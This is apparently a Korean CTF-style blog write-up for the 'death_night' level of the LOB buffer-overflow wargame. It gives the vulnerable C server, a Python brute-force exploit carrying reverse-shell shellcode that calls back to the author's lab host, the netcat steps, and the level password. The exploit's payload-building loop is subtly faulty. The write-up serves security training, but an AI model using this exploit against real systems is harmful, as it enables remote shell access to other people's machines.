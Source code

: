 ```yaml
---
layout: single
title: "LOB 20번 (xavius -> death_night)"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- wargame
- writeup
- pwnable
- lob
comments: true
share: true
---
```


source code:

```c

1  /*
2          The Lord of the BOF : The Fellowship of the BOF
3          - dark knight
4          - remote BOF
5  */
6  
7  #include <stdio.h>
8  #include <stdlib.h>
9  #include <errno.h>
10 #include <string.h>
11 #include <sys/types.h>
12 #include <netinet/in.h>
13 #include <sys/socket.h>
14 #include <sys/wait.h>
15 #include <dumpcode.h>
16 
17 main()
18 {
19         char buffer[40];
20 
21         int server_fd, client_fd;
22         struct sockaddr_in server_addr;
23         struct sockaddr_in client_addr;
24         int sin_size;
25 
26         if((server_fd = socket(AF_INET, SOCK_STREAM, 0)) == -1){
27                 perror("socket");
28                 exit(1);
29         }
30 
31         server_addr.sin_family = AF_INET;
32         server_addr.sin_port = htons(6666);
33         server_addr.sin_addr.s_addr = INADDR_ANY;
34         bzero(&(server_addr.sin_zero), 8);
35 
36         if(bind(server_fd, (struct sockaddr *)&server_addr, sizeof(struct sockaddr)) == -1){
37                 perror("bind");
38                 exit(1);
39         }
40 
41         if(listen(server_fd, 10) == -1){
42                 perror("listen");
43                 exit(1);
44         }
45 
46         while(1) {
47                 sin_size = sizeof(struct sockaddr_in);
48                 if((client_fd = accept(server_fd, (struct sockaddr *)&client_addr, &sin_size)) == -1){
49                         perror("accept");
50                         continue;
51                 }
52 
53                 if (!fork()){
54                         send(client_fd, "Death Knight : Not even death can save you from me!\n", 52, 0);
55                         send(client_fd, "You : ", 6, 0);
56                         recv(client_fd, buffer, 256, 0);
57                         close(client_fd);
58                         break;
59                 }
60 
61                 close(client_fd);
62                 while(waitpid(-1,NULL,WNOHANG) > 0);
63         }
64         close(server_fd);
65 }

```

평범한 소켓 통신 서버 역할을 하는 프로그램이며, 원격접속한 사용자로부터 입력값을 받고 있다. 그리고 이를 통해 Buffer Overflow(이하 BOF)가 발생하게 된다. 그리고 이전의 문제들과 다르게 이 버퍼에는 아무런 보호조치가 되어있지 않다. 결국 이 문제는 원격지에서 이 LOB 서버로 접속한 후, 쉘코드와 함께 bof를 발생시키면 된다. 우선 따로 만든 공격지에서 LOB 서버 6666번 포트로 nc 명령어를 사용하였다.

![nc]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/0.png)

위와 같이 입력값을 받고 있다.
공격지인 다른 리눅스 로컬로 리버스 쉘코드를 사용한 브루트 포스 코드를 작성해 두었다. 원격에서 공격하는 만큼 ret주소를 알 수 없기 때문에 브루트 포스를 사용했다.


Reverse shellcode 출처: https://orang.tistory.com/entry/%ED%95%B4%EC%BB%A4%EC%8A%A4%EC%BF%A8-LOB-xavius-deathknight-by-ORANG

```c

1  import sys, struct, socket
2  
3  host = "192.168.235.135"
4  port = 6666
5  
6  hexhost = "\xc0\xa8\xeb\x8a" # 192.168.235.138
7  recvhexport = "\x27\x0f" # port 9999
8  
9  shellcode = "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68" + hexhost + "\x68\x02\x00" + recvhexport + "\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"10 
11 padding1 = "A" * 44
12 padding2 = "\x90" * 50
13 payload = ""
14 
15 for i in range(0xff, 0xf0, -1):
16 	for j in range(0xff, 0x00, -1):
17 		for k in range(0xff, 0x00, -1):
18 		 	r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
19 		 	r.connect((host, port))
20 		 	retaddr = chr(k) + chr(j) + chr(i) + "\xbf"
21 		 	print("RET: " + str(hex(struct.unpack("I", retaddr)[0])))
22 		 	payload += padding1
23 		 	payload += retaddr
24 		 	payload += padding2
25 		 	payload += shellcode
26 		 	print(r.recv(52))
27 		 	print(r.recv(6))
28 		 	r.send(payload)
29 		 	r.close()

```

LOB 서버에 6666번 포트로 연결하고, receive를 9999번 포트로 받으려고 한다.

![nc2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/1.png)

nc로 공격지에서 listen 모드로 9999번 포트를 열어두고, 위의 브루트포스 코드를 실행시킨다.

![exploit]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/2.png)


my-pass: got the life